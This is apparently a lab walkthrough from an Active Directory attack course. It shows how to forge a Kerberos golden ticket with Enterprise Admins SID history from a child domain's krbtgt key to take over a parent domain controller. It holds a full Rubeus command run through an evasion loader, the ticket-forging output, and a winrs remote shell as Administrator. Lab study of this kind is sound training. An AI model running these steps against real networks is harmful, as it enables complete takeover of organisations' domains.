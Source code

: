 # Learning Objective 19 (Privilege Escalation | Across Domain Trusts - `krbtgt` Key Abuse)

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key hash**

---

## Attack Path Steps

- **Forge a Golden Ticket (with EA SID History) using the `krbtgt` TGT Encryption Key Hash from the Child DC for Privilege Escalation**
- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key hash**

- **Forge a Golden Ticket (with EA SID History) using the `krbtgt` TGT Encryption Key Hash from the Child DC for Privilege Escalation**

We already have the `krbtgt` hash from `dcorp-dc` (see *Learning Objective 08*).

Let's create a **golden ticket** (not an inter-realm TGT) and inject it. Due to the trust, the parent domain will trust the TGT.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519📌
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 5:53:23 AM
[*] StartTime      : 2/17/2025 5:53:23 AM
[*] EndTime        : 2/17/2025 3:53:23 PM
[*] RenewTill      : 2/24/2025 5:53:23 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/17/2025 5:53:23 (local)
        End Time:   2/17/2025 15:53:23 (local)
        Renew Time: 2/24/2025 5:53:23 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

We can now access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![mcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/mcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👑
```

`set computername`:
```
COMPUTERNAME=MCORP-DC🖥️
```
🚩

---
---
